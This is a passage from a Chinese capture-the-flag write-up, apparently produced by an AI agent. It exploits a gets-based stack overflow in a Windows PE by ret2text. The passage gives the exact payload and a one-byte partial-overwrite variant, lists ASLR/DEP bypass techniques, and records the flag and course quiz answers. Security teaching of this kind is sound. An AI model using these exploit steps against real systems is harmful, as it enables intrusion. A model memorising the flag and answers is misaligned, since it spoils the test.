1791879703.DGGke8z2M2AZT_OEp090QhctHKfra_iapcNzUSGyCVC8Q9T-r9vL8N-i0sS6hPmwCz8UhtQflYTzLGOK-2DqOw

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1791879703.DGGke8z2M2AZT_OEp090QhctHKfra_iapcNzUSGyCVC8Q9T-r9vL8N-i0sS6hPmwCz8UhtQflYTzLGOK-2DqOw"
```

payload 的 hex 尾部 `...4141414100104000` 即 `b"A"*68 + b"\x00\x10\x40\x00"`。`vuln` 的 `ret` 弹出被覆盖的返回地址 `0x00401000`，控制流进入 `get_flag`，其中 `call dword ptr [0x416130]` 调用 `getflag.dll!GetFlag()` 输出一次性凭证（形如 `<Unix 时间戳>.<base64url>`），随后 `ExitProcess(0)` 结束进程。证据由 `evidence-run.sh` 一次性 `tee` 落盘（`logs/evidence-exploit.txt`），token 与下图逐字一致。

**为什么不需要 ROP 链 / ret2libc**：`NX_COMPAT` 让栈页不可执行，所以不能注入 shellcode；但 DEP 的语义边界是「**数据页不可执行**」，它并不禁止把控制流转移到 `.text` 中已有的函数。`get_flag`（导出函数，`0x401000`）就在可执行页里，一步 `ret2text` 就够——`ret2libc`/ROP 是「目标不在程序自身代码里、或需要拼装参数」时才需要的手段。本题还额外满足两个前提：`vuln` 无 `/GS`，且 PE 无 `DYNAMICBASE`（地址可静态确定）。


### 9. 用一次性 token 兑换 flag（截图 05、05b）

端口映射实测为 `13054→22`、`13055→80`，兑换服务在 **13055** 上。用步骤 8 的 token（10 分钟内有效）兑换：

```console
$ curl -sS --noproxy '*' -m 20 -i 'http://172.17.0.13:13055/flag?token=1791879703.DGGke8z2M2AZT_OEp090QhctHKfra_iapcNzUSGyCVC8Q9T-r9vL8N-i0sS6hPmwCz8UhtQflYTzLGOK-2DqOw'
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 08:21:55 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{eTxE5wU0cxPYsGeksTXuVojx0HRGdsyA}
```

顺带排除「端口错位」：对 `13054`（SSH 端口）发同样的 HTTP 请求返回 `curl: (1) Received HTTP/0.9 when not allowed`，确认只有 13055 是 HTTP/flag 服务，与 `portInfos` 一致。


兑换服务本身也做了两层校验的失败对照（`logs/flag-bad-token.txt`、`logs/flag-reuse.txt`）：

```console
$ curl -sS --noproxy '*' -i "http://172.17.0.13:13055/flag?token=bad"
HTTP/1.1 403 Forbidden
invalid token: invalid token format

$ curl -sS --noproxy '*' -i "http://172.17.0.13:13055/flag?token=1791879510.j1lIorv1...I45E4A"   # 同一个 token 再来一次
HTTP/1.1 403 Forbidden
token already used
```

一次利用共取到 4 个 token（部分覆盖 2 次、ret2text 2 次），4 次兑换**全部返回同一个 flag**；坏格式与重放分别返回 `invalid token: invalid token format` 与 `token already used`，证实 token 的**一次性**属性，也说明服务端同时存在「格式校验」和「是否已使用」两层判断。



### 10. 提交答案与平台判分（截图 06）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6635' \
  -F 'answers={"questionID": 8791, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8793, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8795, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8797, "answer": "{\"answer\": [\"A\", \"B\"], \"num\": 2}"}' \
  -F 'answers={"questionID": 8823, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{eTxE5wU0cxPYsGeksTXuVojx0HRGdsyA}\"]}"}' \
  -F 'contestMode=0'
# code=0, msg=success
```

`num` 取**所选答案个数**（单选 1、多选选 n 个填 n、填空固定 3）。提交时间 `2026-10-13T16:21:04+08:00`，5 条记录 `answerTimes` 均为 **1**（确为首次提交）。两处属平台正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`；填空题的 `answer` 被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位补 `true`），与既往题目一致。

判分以 `GET /api/student/get/answerHistory?sectionID=6635&contestMode=0` 为准（原始响应 `logs/answerHistory-after.json`）：

| order | questionID | 题型 | 提交内容 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 8791 | 单选 | `{"answer":["C"],"num":1}` | true |
| 2 | 8793 | 单选 | `{"answer":["A"],"num":1}` | true |
| 3 | 8795 | 单选 | `{"answer":["B"],"num":1}` | true |
| 4 | 8797 | 多选 | `{"answer":["A","B"],"num":2}` | true |
| 5 | 8823 | Flag 填空 | `{"num":3,"answer":["","","vmc{eTxE5wU0cxPYsGeksTXuVojx0HRGdsyA}"]}` | true |

**5/5 全部 `isCorrect=true`**；平台作答页同样 5 题都显示「作答正确」，4 道选择题的所选选项高亮，第 5 题 flag 输入框内为最终 flag。



### 11. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- |
| 1 | `objdump -d --disassemble-symbols=get_flag,vuln` 没有按符号裁剪，输出整段 `.text`（1.8 MB） | 本机是 Apple LLVM 版 objdump，对 PE 的符号裁剪支持不佳 | 改用 `--start-address/--stop-address` 按地址范围反汇编，得到干净输出并据此复核偏移（步骤 3） |
| 2 | 把「只发 68 字节」当作失败对照，实测却**拿到了 token** | `gets` 语义在 `buf+68 = ebp+4`（返回地址最低字节）补 `\0`；调用点返回地址 `0x4010C0` 被清零成 `0x401000 = get_flag`，构成 1 字节部分覆盖 | 重新标注为「部分覆盖备选解法」并解释原理（步骤 7）；另补 `p32(0xdeadbeef)` 无效地址与 64 字节两条真正的失败对照（步骤 5、6） |
| 3 | `b"C"*68 + p32(0xdeadbeef)` 时回显出现乱码 `锞??` | 脚本用 `cp936` 解码 4 字节地址 `\xef\xbe\xad\xde`，必然产生替换字符；属解码副作用 | 保留原样并说明，不改写成「正常回显」（步骤 6） |
| 4 | 按平台文档示例提交答案 → `HTTP 400 {"code":10105,"msg":"get param failed"}` | 示例缺少外层 `{"questionID":<id>,"answer":"<内层 JSON 字符串>"}` 包装 | 改用既往题目已实证的外层 questionID 格式（步骤 10）；提交前已确认 `answerHistory` 的 `answerQuestion` 仍为 `[]`（未被记录，未消耗唯一机会） |
| 5 | 对 `https://vmc.hust.edu.cn` 提交 → `{"code":10006,"msg":"invalid token"}` | cookie jar 中 `SESSIONID` 的 domain 是直连 IP，对另一域名发 POST 带不上 cookie | 改用 cookie 所属的直连地址（`$VMC_BASE_IP`），提交成功 |
| 6 | 无头浏览器首轮截 VMC 作答页只拍到第 1–3 题 | 页面用 Element-UI `.el-scrollbar__wrap` 内部滚动（`scrollHeight=2154` > `clientHeight=1000`），`fullPage` 不覆盖内部滚动区 | 把浏览器 viewport 高度直接设为 2350 px，让容器一次性撑开，单张截图拍全 5 题（截图 06） |

### 12. 教学问答：DEP 的边界与 ret2text 的定位（截图 07–12）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题（每题新开会话，会话号 5454 / 5455 / 5456 / 5457 / 5458 / 5460，问答原文另存 `.local/process/5-1-qa-transcript.json`）。6 条回答长度 1093 / 1545 / 967 / 1541 / 1525 / 1373 字符，均自然收束、未被 1024-token 截断。

| # | 问题主题 | 回答要点 | 截图 |
| --- | --- | --- | --- |
| 1 | DEP 的硬件实现与软件实现差异 | 硬件 DEP 靠 CPU/MMU 的页表权限位、以 4 KB 页为粒度把页标为不可执行；x86 无 NX/XD 位时所谓「软件 DEP」由操作系统在调度与内存管理层面近似实现，覆盖不全、有性能开销、存在保护盲区，**无法与硬件 NX 等效** | 07 |
| 2 | ret2text / ret2libc / ROP 的关系与适用条件 | 三者都靠控制流劫持：ret2text 跳程序自身已有代码段、ret2libc 跳库函数、ROP 用 gadget 串联；对 DEP 都「不违反」（不执行数据页），对 ASLR 分别要求地址固定 / 泄露基址 / 泄露基址 + gadget；本题这种「DEP 开、ASLR 关、无 Cookie」的场景 ret2text 一步足够 | 08 |
| 3 | ASLR 与 DEP 同时开启时的绕过组合 | 信息泄露（栈/堆/基址）→ 再 ret2libc/ROP；部分覆盖（只改返回地址低 1–2 字节、利用页对齐）；跳到未参与随机化的模块；ret2plt/GOT 覆写；JIT/堆喷射等，各自前提条件不同 | 09 |
| 4 | `gets` 型栈溢出的代码级修复与编译/链接期加固 | 用 `fgets` 等有界读取替换 `gets`；编译期 `/GS`（栈 Cookie）、SafeSEH、`/DYNAMICBASE`（ASLR）、`/NXCOMPAT`（DEP）、CFG，并逐项说明各措施挡住攻击链的哪一环 | 10 |
| 5 | Windows PE 与 Linux ELF 溢出的差异 | 调用约定（cdecl/stdcall vs System V）、返回地址偏移的计算、IAT/EAT vs PLT/GOT、`/GS` vs stack canary、SEH vs 信号机制、`DYNAMICBASE` 重定位 vs ELF 的 PIE/ASLR | 11 |
| 6 | 此类攻击的检测与应急排查 | 进程崩溃/异常码 `c0000005` 与转储、RWX 匿名可执行页、异常子进程与外联、EDR 遥测中线程起始地址与调用栈异常、一次性凭证类行为；给出排查步骤与加固建议 | 12 |












> 口径说明（逐图核对时发现，以靶机实测与官方文档为准，仅供读者参考，不影响本题结论）：
>
> 1. 第 2 组回答在「对 DEP 的依赖」一节写「ret2text、ret2libc 和 ROP **都依赖于 DEP 的关闭**来实现攻击」，与其同一回答第 4 节「DEP 已开启时 ret2text 仍可行」以及本题实测（DEP 开着照样拿到凭证）**自相矛盾**——准确表述是这三者都不在数据页执行代码，因此**不违反 DEP**；
> 2. 第 4 组回答给的命令行示例有误：`cl /GS- your_program.c` 中的 `/GS-` 是**关闭** `/GS`（应为 `/GS`）；SafeSEH 与 CFG 都写成 `cl /GS:cf`（SafeSEH 是链接器选项 `/SAFESEH`，CFG 是 `/guard:cf`）；
> 3. 第 5 组回答称「在 `cdecl` 中，参数是从左到右依次入栈」，实际 `cdecl` 与 `stdcall` 一样是**从右到左**入栈（差别在由谁清理栈）；同段又把 64 位寄存器 `RDI/RSI/RDX/RCX/R8/R9` 与「参数通过栈传递」混在一句话里。

### 13. 截图真实性与脱敏说明

`5-1/screenshots/` 共 14 张，按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | `md5`/`file` 核对附件 + socket 连 `172.17.159.230:9999` 的 banner | **真实命令回显的无头 Chrome 渲染稿**（本机 Agent 进程无屏幕录制权限，无法终端实拍；图内自带「非终端实拍」说明） |
| `02` | `"A"*64` 只填满缓冲区 → 正常回显、无 token；`"C"*68 + p32(0xdeadbeef)` → 崩溃、无 token | 真实脚本输出的渲染稿 |
| `02b` | 只发 68 字节，`gets` 的 NUL 把 `0x4010C0` 清成 `0x401000` → 同样输出 token（备选解法） | 真实脚本输出的渲染稿 |
| `03` | 真实 `objdump` 输出：`NX_COMPAT`/`ImageBase`、导出表、两个函数反汇编、调用点 `0x4010bb`、偏移推导 68 | 真实 objdump 输出的渲染稿 |
| `04` | `python3 exploit.py exploit`：`68*"A" + p32(0x00401000)` → 一次性 token | 真实会话输出的渲染稿 |
| `05` | `curl 'http://172.17.0.13:13055/flag?token=...'` → `HTTP/1.1 200` + `vmc{...}` | 真实 curl 输出的渲染稿 |
| `05b` | 坏 token → 403 `invalid token format`；同一 token 复用 → 403 `token already used` | 真实 curl 输出的渲染稿 |
| `06` | VMC 作答页：5 题全部「作答正确」，选项高亮，flag 输入框内为最终 flag | **真实页面截图**（无头 Chrome，注入 cookie 保持登录态） |
| `07`–`12` | 教学问答平台 6 个会话的完整问答页面 | **真实页面截图**（无头 Chrome） |

脱敏（仓库为公开仓库，入库前处理，可追溯、可回退）：

- 处理范围：仅 Q&A 页面（`07`–`12`）顶部 header 右侧账号信息一处矩形，device px `(2130,38)-(2495,112)`，重绘为实测 header 背景色 `rgb(255,252,247)` 并标注「账号已脱敏」；其余像素未改动；
- 位置来源：用无头浏览器实测 `getBoundingClientRect()`（CSS 盒 `x=1070.05, y=25, w=169.55, h=26.48`，×2 得 device px），非肉眼估计；
- 脚本：`.local/process/5-1-scripts/mask_account.py`（`--check` 干跑 / `--apply` 写入），判据为「涂白前后该矩形内 ink 像素数必须下降」：6 张图均为 `3088 → 816`，全部通过；原图未留存副本，如需回退可从平台重新截取；
- 判分截图 `06` 顶栏只渲染通用「用户」入口，无昵称、学号或真实姓名；图内不含账号口令、私有地址等敏感信息。

### 14. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| 靶机 `172.17.159.230:9999` | **无文件落地** | 全部交互都是对内存溢出的一次性利用，未上传文件、未写磁盘、未留后门；每次利用后 `get_flag` 内部调用 `ExitProcess(0)`，连接自然关闭 |
| 本机 | `.local/process/5-1-scripts/`（`exploit.py`、`evidence-run.sh`、`submit.py`、`ask_qa.py`、`mask_account.py`、`logs/`）与 `/tmp/shot/` 下的无头浏览器截图脚本 | 均为本地辅助脚本与证据日志，`.local/` 与 `/tmp` 均不入库 |
| 实例 | envID `1157` 仍在 `Running`（`timeout=1791890073`），未销毁 | 如需善后可在平台停止该实例 |
| 一次性 token | 共取到 4 个，全部已用于兑换并失效 | 无残留有效凭证 |

## Flag

```text
vmc{eTxE5wU0cxPYsGeksTXuVojx0HRGdsyA}
```

兑换响应 `Content-Length: 38` = 37 字符 flag + 结尾换行；部分覆盖（2 次）与 ret2text（2 次）共 4 个 token 的兑换结果**逐字一致**，且与平台作答页第 5 题输入框内的值相同。

## 总结与心得

### 漏洞原理

1. **根因是「无长度检查的读取 + 无栈保护的可写返回地址」**：`vuln` 用一个长度参数为 `-1` 的读入函数（`gets` 语义）往 `ebp-0x40` 的 64 字节缓冲区里写数据，不校验长度；而 `vuln` 自身没有 `/GS` 栈 Cookie（同一份 CRT 里其它函数却有），于是「缓冲区首址 → 返回地址」的 68 字节偏移一旦被填满，控制流就可被改写。这是最经典的 CWE-121（栈缓冲区溢出）。
2. **DEP（NX）的边界是「不执行数据页」，不是「不让跳转」**：`NX_COMPAT` 把栈、堆等数据页标为不可执行，因此「注入 shellcode 再跳过去」这条路被封死；但 `get_flag` 位于 `.text`（`0x401000`，可执行页），覆盖返回地址直接跳过去**不违反 DEP**。这就是 ret2text，也是 ret2libc / ROP 的同一个技术基础——DEP 管的是「代码从哪来」，管不了「跳到已有代码」。
3. **ASLR 关闭让攻击退化成一次静态地址覆盖**：该 PE 的 `DllCharacteristics` 没有 `DYNAMICBASE`，加载基址恒为 `0x400000`，`get_flag` 的地址在逆向阶段就能写死（`0x00401000`）。若这一位开着，相同漏洞就还需要先泄露基址，或退回到部分覆盖。
4. **同一漏洞的第二种利用长度——1 字节部分覆盖**：`gets` 保证在输入末尾补 `\0`，而第 69 个字节（`buf+68 = ebp+4`）正是返回地址的最低字节；调用点的返回地址是 `0x4010C0`，最低字节清零后恰好是 `0x401000 = get_flag`。**只发 68 字节就能命中目标函数**，这类「不用知道完整地址、只改低字节」的手法在开 ASLR 的环境里同样常见（利用页内/块内对齐），是本题最值得记住的细节。
5. **「拿到凭证」与「拿到 flag」是两段权限**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在**校验 token 的格式与使用状态**后才给出。这种设计把「能控制靶机进程」与「能读最终 flag」隔开，即使利用成功也会在服务端留下一次性凭证的使用记录。

### 做题方法

- **先钉死偏移与保护开关，再动手发包**：`objdump -p` 看 `DllCharacteristics`（DEP/ASLR），`objdump -d` 看 `sub esp,0x40` 与调用点返回地址，再用「缓冲区 64 B + saved EBP 4 B = 68」独立算出偏移。本题的所有后续动作都建立在这三个数字/标志上，先算清楚能省掉大量盲目试错。
- **用「对照实验」把每一步的因果钉住**：64 字节（只填满缓冲区）→ 无凭证；68 字节 + 无效地址 `0xdeadbeef` → 崩溃无凭证；68 字节 + `0x00401000` → 有凭证。三条对照一条条排除「是不是随便发点长的都有凭证」「是不是崩溃也算成功」，结论才站得住。
- **反直觉的结果要往机制上追，而不是直接写成失败**：只发 68 字节竟然成功，第一反应是「失败对照写错了」；实际是 `gets` 的终止符 + 调用点返回地址低字节 `0xC0` 的巧合。把它追成一字节部分覆盖，比含糊地记成「防护没生效」有价值得多。
- **没有 pwntools 也能完整验证**：用 Python 标准库 `socket` + `struct.pack("<I", ...)` 就能构造 payload 与解析回显；本机缺工具不该成为跳过验证的理由。
- **每次利用的输出都要落盘、与截图逐字对齐**：`evidence-run.sh` 用 `tee` 把「真实 exploit 会话 → 立刻用 token 兑换」这条链路一次性记录下来，截图直接引用日志内容，避免叙述与证据脱节。
- **平台提交有两个必踩的格式坑**：`answers` 字段必须外层包 `{"questionID":...,"answer":"<内层 JSON>"}`（少了外层会 400 `get param failed`），且 cookie 与访问域名绑定（用错域会 `10006 invalid token`）。提交前先查一次 `answerHistory`，确认是否为 `[]`，避免浪费唯一一次判分机会；判分只看 `answerHistory.isCorrect`，顶层 `scoreRate`/`isCorrect` 不是判分依据。
- **对模型回答保持复核**：本题问答中 DEP 与 ret2text 的关系、`/GS` 开关写反、`cdecl` 入栈顺序等多个点与实测/文档不符（步骤 12 口径说明），说明教学问答适合用来梳理思路，但**结论必须回到二进制与实测上验证**。

### 修复建议

- **代码级：不要再用无界读取**。把 `gets`/长度参数为 `-1` 的读入替换为带长度上限的 `fgets(buf, sizeof buf, stdin)` 或「按已知长度 + 截断处理」的实现，并检查所有把外部数据写进定长缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——本题 `vuln` 恰好没有，是返回地址能被直接覆盖的前提；正确命令行是 `cl /GS`（**不是** `/GS-`）；
  - `/NXCOMPAT`（DEP）与 `/DYNAMICBASE`（ASLR）+ `/HIGHENTROPYVA`——本题只有前者，补上 ASLR 后静态地址不再可用；
  - SafeSEH（链接器 `/SAFESEH`）、`/guard:cf`（CFG，控制流完整性）——约束异常处理与间接跳转目标，直接提高「覆盖返回地址/函数指针」的难度；三者是相互独立的机制，不要理解成「必须同时开启才有效」。
- **运行期与架构层**：开启系统级 DEP/ASLR；对该服务启用 CFG 与「任意代码执行保护」策略；用最小权限账户、低完整性级别运行服务，避免进程被控后直接触达敏感资产。
- **把「拿不到 flag」当作最后一道边界**：本题的 flag 兑换服务做了 token 格式校验、有效期（10 分钟）与一次性使用检查，是可借鉴的设计——高价值资产应与暴露面分层，凭据可短期、可单次使用，并在服务端记录使用情况以便事后审计。
- **检测与应急排查要点**（对应教学问答第 6 组）：服务进程异常退出/崩溃且异常码为 `c0000005`（访问违例）、崩溃转储中返回地址被改成进程内**未被正常调用**的函数地址、进程内存里出现可疑的 RWX 匿名页、服务进程派生异常子进程或外联、一次性凭证在极短时间内被使用等，都是此类控制流劫持的典型痕迹；处置上应保留转储与进程内存镜像、核对 EDR 遥测中的线程起始地址与调用栈、检查同主机上同类服务的版本与补丁状态，并尽快修复读取逻辑、补开 `/GS`+`DYNAMICBASE` 后重新发布。

原始过程记录：`.local/process/5-1-ctf-process.md`；教学问答原文：`.local/process/5-1-qa-transcript.json`；复现脚本与全部证据日志：`.local/process/5-1-scripts/`（`exploit.py` 四个用例、`evidence-run.sh` 取证链路、`submit.py` 提交与判分复核、`ask_qa.py` + `qa-questions.json` 顺序提问、`mask_account.py` 截图脱敏、`logs/` 原始输出）。
